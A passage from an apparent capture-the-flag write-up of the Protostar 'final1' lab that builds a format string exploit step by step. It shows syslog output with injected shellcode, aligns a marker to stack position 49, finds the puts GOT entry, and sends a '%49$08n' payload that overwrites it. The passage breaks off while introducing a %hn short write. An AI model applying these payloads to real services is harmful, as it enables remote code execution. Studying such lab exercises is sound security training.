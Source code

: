 ... will produce a long output including:

```lang-bash line-numbers 
Dec 23 04:02:07 protostar final1: Login from 127.0.0.1:39732 as [�����������������#002�#005�����_������W^)ɀ��#007,A��#004G#002#007,A�#006FGI��DBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKBAF] with password [DDDD[47] 2064726f]
Dec 23 04:02:07 protostar final1: Login from 127.0.0.1:39732 as [�����������������#002�#005�����_������W^)ɀ��#007,A��#004G#002#007,A�#006FGI��DBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKBAF] with password [DDDD[48] 4444445b]
Dec 23 04:02:07 protostar final1: Login from 127.0.0.1:39732 as [�����������������#002�#005�����_������W^)ɀ��#007,A��#004G#002#007,A�#006FGI��DBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKBAF] with password [DDDD[49] 39345b44]
Dec 23 04:02:07 protostar final1: Login from 127.0.0.1:39732 as [�����������������#002�#005�����_������W^)ɀ��#007,A��#004G#002#007,A�#006FGI��DBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKBAF] with password [DDDD[50] 3525205d]
```

So our DDDD block is split between position 48 and 49, We will run the script again but adding three chracters before our DDDD block in order to align it to a format string position.

```lang-bash line-numbers 
Dec 23 04:07:04 protostar final1: Login from 127.0.0.1:39733 as [�����������������#002�#005�����_������W^)ɀ��#007,A��#004G#002#007,A�#006FGI��DBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKBAF] with password [XXXDDDD[49] 44444444]
```

Nice, now our DDDD is righ at 49 position. Now we will use the "%n" flag to write to a format string position. In this case to the number 49 that we control so we will write the number of bytes read so far to the address supplied instead of the DDDD block. As we want to overwrite a GOT entry to control program execution flow, we will find out the "puts" entry:

```lang-bash line-numbers 
user@protostar:~$ objdump -TR /opt/protostar/bin/final1 | grep puts
00000000      DF *UND*	00000000  GLIBC_2.0   puts
0804a194 R_386_JUMP_SLOT   puts
```

Ok, lets try it so far, we will overwrite the GOT entry with an unknow number (the bytes written so far):

```lang-bash line-numbers 
s.send("username " + "\x90"*16 + shellcode + "\n")
s.send("login " + "XXX" + "\x94\xa1\x04\x08" + "%49$08n" + "\n")
```

and we get

```lang-bash line-numbers 
Dec 23 04:15:55 protostar kernel: [391899.936862] final1[23024]: segfault at ac ip 000000ac sp bffffc2c error 4 in final1[8048000+2000]
```

Nice! a segfault, that means that we have successfully overwritten the **puts** entry in the GOT table with the value **000000ac** thats the number of charcters written before the format flag.

So we need to write the &username address in the puts GOT entry.
Since the first 2 bytes are the same 0804, we can leave them untouched and just do a short write using the **%hn** flag. As an example:
